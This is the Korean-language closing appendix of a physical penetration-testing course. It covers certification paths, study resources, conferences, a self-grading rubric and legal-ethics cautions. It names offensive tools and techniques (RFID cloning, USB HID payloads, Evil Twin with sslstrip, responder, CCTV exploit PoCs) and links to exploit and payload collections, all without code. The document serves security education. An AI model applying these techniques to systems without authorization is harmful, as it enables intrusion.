| **OSEP (Exploit & Privilege)** | Offensive Security | 상 | $1599 | 낮음 | windows/AD |
| **OSWP (Wireless)** | Offensive Security | 중 | $450 | 중간 | WiFi 전문 |
| **CRTP (Red Team)** | Pentester Academy | 중상 | $499 | 중상 | AD + 물리 |
| **PNPT (Practical Network)** | TCM Security | 중 | $300 | 중간 | 한국어 자료 풍부 |
| **OSCP+** | Offensive Security | 상 | $2049 | 상 | 갱신 의무 |
| **GCIH (GIAC IH)** | SANS | 상 | $$$$$ | 중 | 사고 대응 |
| **GPEN (GIAC Pentest)** | SANS | 상 | $$$$$ | 중 | 종합 |
| **CISSP** | (ISC)² | 매우 상 | $749 | 낮음 (관리) | 경영진 |
| **CCSP** | (ISC)² | 상 | $749 | 낮음 | cloud |
| **KICA 정보보안기사** | 한국인터넷진흥원 | 중 | ₩수십만 | 낮음 | 국내 표준 |
| **KICA 보안전문가** | 한국인터넷진흥원 | 상 | ₩수십만 | 중 | 국내 |

#### 추천 학습 경로 (개인별)

| 출발점 | 1단계 (3-6개월) | 2단계 (1년) | 3단계 (2년+) |
|--------|----------------|------------|--------------|
| **신입** | Security+ → CEH | OSCP / PNPT | OSCP+ / OSEP |
| **개발자** | Security+ → eLearnSecurity | OSCP | CRTP / OSEP |
| **시스템 관리자** | Lynis 자가 audit + SSCP | CEH / GSEC | OSCP / CISSP |
| **보안 분석가** | GIAC GCIH / GPEN | OSCP / GREM | CISSP / CCSP |
| **물리 침투 특화** | OSWP / TCM PNPT | OSCP + 락픽 자격 | CRTP + Red Team |
| **국내 진학** | 보안 산업기사 → 정보보안기사 | KICA 보안전문가 | 박사 / 산업체 |

#### 한국어 자료 / 오프라인 자료

- **KISA 사이버교육센터** — 무료 e-Learning (정보보안기사 등)
- **CCC (Cyber Combat Commander)** — 본 과정
- **Cyber Range Korea** — 한국 사이버 침투 lab
- **TOOOL Korea** — 락픽 학습 (toool.kr — 가입 시 합법 학습)
- **HackTheBox / TryHackMe** — 클라우드 lab (무료 + 유료)
- **VulnHub** — 무료 VM 다운로드
- **PortSwigger Web Security Academy** — 무료 web 학습
- **Bandit / OverTheWire** — 리눅스 셸 + 보안 워게임
- **Cyber Defenders** — Blue team 학습
- **PicoCTF** — CTF 입문

#### 산업 / 학회 / 컨퍼런스

| 컨퍼런스 | 시기 | 비용 | 분야 |
|----------|------|------|------|
| **POC (Power of Community)** | 11월 / 한국 | ₩수십만 | hacker conf |
| **CodeGate** | 5월 / 한국 | ₩무료 | CTF + 발표 |
| **ZerOcCon** | 부산 / 5월 | ₩수십만 | hacker |
| **DEF CON** | 8월 / Las Vegas | $400 | 글로벌 표준 |
| **Black Hat** | 8월 / Las Vegas | $$$$$ | 산업 |
| **HITB / GreHack** | 4-9월 | $$$ | 유럽 |
| **SANS HackFest** | 11월 / 미국 | $$$$ | 공식 |
| **OffensiveCon** | 5월 / 베를린 | $$$ | exploit |
| **NoHackNo** | 분기별 / 한국 | 무료 | 중소 |

### 학습 자료 OSS 인덱스 (전체 코스 통합)

| 분야 | 자료 / repo |
|------|-------------|
| **CTF 학습** | [picoCTF](https://picoctf.org), [HackTheBox](https://hackthebox.com), [TryHackMe](https://tryhackme.com), [VulnHub](https://vulnhub.com) |
| **CVE / 취약점** | [exploitdb](https://exploit-db.com), [nuclei-templates](https://github.com/projectdiscovery/nuclei-templates), [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) |
| **물리 침투** | [Lock-Picking-101](http://lp101.com), [TOOOL.us](https://toool.us), [Bosnianbill youtube] |
| **Red Team** | [RedTeam-Cheatsheet](https://github.com/dafthack/Red-Team-Knowledge), [Awesome-Red-Team](https://github.com/yeyintminthuhtut/Awesome-Red-Teaming), [MITRE ATT&CK](https://attack.mitre.org) |
| **Blue Team** | [Awesome-Blue-Team](https://github.com/fabacab/awesome-blue-team-tools), [SOC playbook](https://github.com/socfortress/Wazuh-Rules), [DFIR-IRIS](https://github.com/dfir-iris/iris-web) |
| **OSINT** | [OSINT Framework](https://osintframework.com), [Awesome-OSINT](https://github.com/jivoi/awesome-osint), [Bellingcat](https://www.bellingcat.com/category/resources/) |
| **권고 / 표준** | [NIST SP-800-53](https://csrc.nist.gov/Projects/oscal), [CIS Benchmarks](https://www.cisecurity.org/cis-benchmarks/), [ISO 27001](https://iso.org), [정통망법](https://elaw.klri.re.kr) |
| **OS hardening** | [DevSec/ssh-baseline](https://github.com/dev-sec/ssh-baseline), [hardening.io](https://hardening.io) |
| **자기 학습 lab** | [vulhub](https://github.com/vulhub/vulhub), [Damn Vulnerable](https://github.com/digininja/DVWA), [PentesterLab](https://pentesterlab.com) |

### 본 코스 종합 자가 채점

| 영역 | 배점 | 자가 점검 (week 부록) |
|------|------|----------------------|
| **OSINT** | 15 | w12 부록 — amass / theHarvester / sherlock / trufflehog 자가 점검 10/11 |
| **사회공학** | 10 | w02 부록 — gophish 캠페인 1회 / 시나리오 5종 답변 |
| **RFID** | 10 | w03 부록 — proxmark3 read / clone / sim 자가 점검 |
| **USB HID** | 10 | w04 부록 — DuckyScript 5 페이로드 작성 + USBGuard |
| **네트워크 임플란트** | 10 | w05 부록 — autossh + chisel + responder |
| **WiFi** | 10 | w06 부록 — handshake + hashcat + EAP-TLS |
| **WiFi 심화 (MITM)** | 10 | w07 부록 — Evil Twin + sslstrip + HSTS |
| **RF / SDR** | 5 | w09 부록 — rtl_433 + URH + protocol 식별 |
| **잠금 / CCTV** | 5 | w10 부록 — cameradar + ffprobe + frame IDS |
| **CCTV 심화** | 5 | w11 부록 — RTSP raw + ONVIF + CVE PoC |
| **보고서** | 10 | w13 부록 — pandoc + jinja2 + marp + AFF4 |
| **방어** | 10 | w14 부록 — Lynis + OpenSCAP + Gophish + Atomic |
| **TOTAL** | 100 | 70+ PASS / 85+ DISTINCTION |

### 학생 자가 점검 체크리스트 (전체 코스)

- [ ] 본 부록의 *15주 OSS 도구 통합 인덱스* 의 9 phase 모두 1회 이상 실행
- [ ] *킬체인 6 단계* (정찰 → 무기화 → 전달 → 익스플로잇 → 설치 → C2 →
      이탈 → 보고) 한 host 에 대해 90분 안에 완주 (final-eval-flow.sh)
- [ ] 자기 작성 보고서 (PDF + PPT) 가 검토 체크리스트 15 항목 모두 충족
      (week 13 부록)
- [ ] 자가 채점 점수 70+ 달성 (목표 85+)
- [ ] 본 부록의 *자격증 경로* 에서 자기 진로 1개 선정 + 1단계 시작 (SecurityPlus 등)
- [ ] 본 부록의 *학습 자료 OSS 인덱스* 중 1개 lab (HackTheBox / TryHackMe
      etc.) 시작 + 첫 box 1개 풀이
- [ ] 본 부록의 *컨퍼런스* 1개 onsite / online 참석 계획 수립
- [ ] 본 부록의 *15주 모든 weekly 부록 의 윤리 / 법적 경계* 답변 가능
      (정통망법 §48-49 / 전파법 §29 / 통신비밀보호법 §3 / 형법 §319 /
      개인정보보호법 §15 §59)
- [ ] 본 코스에서 학습한 도구 중 *취직 / 진학 시 강조* 할 5 도구 선정 +
      본인 GitHub / 포트폴리오 정리

### 운영 / 진로 적용 시 주의

1. **모든 도구의 윤리 경계 재확인** — 본 코스의 *어떤* 도구도 *외부 자산
   대상* 무단 사용 시 형사 처벌 대상. 자기 자산 / 동의 받은 자산만 사용.
2. **자격증 + 실무 병행** — OSCP / CRTP 합격해도 *현장 RoE / 채증 / 보고서*
   는 별도 학습. 회사 / 컨설팅 인턴 권장.
3. **자기 lab 유지** — VirtualBox / Proxmox 자가 호스팅 lab + Vulnhub VM
   한 달 1개 풀이 권장. 손 잊으면 회복 어려움.
4. **법적 자문 채널** — 의심 시 *책임자 + 법무 + KISA Cyber Crisis* 연결
   가능. 임의 판단 금지.
5. **커뮤니티 참여** — POC / CodeGate / ZerOcCon 한국 컨퍼런스 + 글로벌
   DEF CON / Black Hat 1년 1회 권장. 산업 동향 + 인맥.
6. **국내 진학** — 정보보안 석박사 + KISA 보안전문가 + 산업 (LIG 넥스원 /
   SK 인포섹 / 안랩 / 위즈디엔에스) 경로 다양.
7. **글로벌 진로** — OSCP+ + Black Hat 발표 + Bug Bounty (HackerOne) 로
   글로벌 경력 가능. 영어 + 1 분야 깊이 필요.

### 마무리

본 Course16 (Physical Pentest) 는 *물리 ↔ 사이버 결합* 의 종합 학습이다.
공격 (week 1-12) + 보고 (week 13) + 방어 (week 14) + 종합 (week 15) 의
4 축을 모두 *실제 OSS 도구* 로 직접 시연 + 자동화 가능하도록 부록을 구성
했다. 학생은 본 부록 인덱스로 *어떤 단계의 어떤 도구* 를 *어디서 (week
부록)* 찾을지 한 화면에 보면서 자기 학습 / 자기 평가 / 진로 결정 가능.

> 본 부록은 *학습 시연용 OSS 시퀀스* 이다. 모든 도구의 운영 적용은 RoE
> + 법적 검토 + 책임자 + 사용자 동의 + 채증 + 사후 교육 6 요건 충족 시
> 에만 수행한다. 본 코스 이수가 *권한* 을 부여하지 않으며 — *책임* 만
> 부여한다는 점을 잊지 말 것.

15주 동안 수고했습니다. 다음 단계는 *자기 lab 구축* + *자격증 1개* +
*첫 컨퍼런스 참석* 입니다. 화이팅!

---
